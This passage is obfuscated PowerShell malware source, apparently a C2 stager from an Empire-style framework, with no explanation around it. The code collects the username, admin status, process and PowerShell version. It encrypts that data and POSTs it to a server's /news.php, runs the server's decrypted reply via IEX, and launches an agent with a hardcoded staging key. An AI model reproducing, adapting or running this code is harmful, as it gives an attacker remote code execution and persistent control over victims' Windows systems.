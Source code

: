 ```powershell
    CAtcH
    {
        $i+='|'+'[FAILED]'
    }
    if(([Environment]::UserName).ToLower() -eq "system")
    {
        $i+="|True"
    }
    else 
    {
        $i += '|' +([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")
    }
    $n=[SysTEm.DiAGnOstICS.ProcEss]::GeTCURrENtPrOcess();
    $i+='|'+$N.ProceSSNaMe+'|'+$N.ID;$i += "|powershell|" + $PSVersionTable.PSVersion.Major;
    $ib2=$E.GetByTES($i);
    $Eb2=$IV+$AES.CReATEENCRypToR().TRansFoRmFInALBLocK($IB2,0,$Ib2.LENGTh);
    $hMac.Key = $e.GetBYtES($kEy);
    $eb2 = $Eb2+$hMaC.CoMPutEHASH($eB2)[0..9];
    $IV2=[BitCONvErtER]::GEtByteS($(GEt-RAnDOm));
    $DATA2 = $e.gEtBytES($ID) + @(0x01,0X03,0X00,0x00) + [BiTCOnvERTER]::GETByTes($eb2.LengTH);
    $Rc4P2 = ConvErtTO-RC4BYtESTREaM -RCK $($IV2+$SKB) -In $daTA2;
    $rc4P2 = $IV2 + $rC4P2 + $eb2;
    if ($customHeaders -ne "")
    {
        $headERs = $cUstOMHeAdERS -SPLIt ',';
        $HEADErS | FOREACH-ObJEcT 
        {
            $heaDErKeY = $_.SpLIt(':')[0];
            $hEAderVaLuE = $_.sPlIT(':')[1];
            if ($headerKey -eq "host")
            {
                trY
                {
                    $iG=$WC.DOwnLoADDATA($S)
                }
                cAtcH{}
            };
            $wC.HEadERS.Add($HEaderKEy, $heADERValuE);
        }
    }
    $wc.Headers.Add("User-Agent",$UA);
    $wc.Headers.Add("Hop-Name",$hop);
    $raw=$wc.UploadData($s+"/news.php","POST",$rc4p2);
    IEX $( $E.GetStRinG($(DecRYpt-BYTEs -KEY $KeY -In $RAw)) );
    $AES=$nuLl;
    $s2=$NULl;
    $wC=$Null;$Eb2=$NuLl;
    $raW=$nUlL;
    $IV=$nULL;
    $wc=$NuLL;
    $i=$nulL;
    $Ib2=$nUll;
    [GC]::COLlEcT();
    ND7K5 -Servers @(($s -split "/")[0..2] -join "/") -StagingKey $SK -SessionKey $key -SessionID $ID -WorkingHours "WORKING_HOURS_REPLACE" -KillDate "REPLACE_KILLDATE" -ProxySettings $Script:Proxy;
}
Start-Negotiate -s "$ser" -SK 'w,PNLOZycKI<usBdSQ~jp;5?!MJ9#1]A' -UA $u -hop "$hop";
```
# Final notes
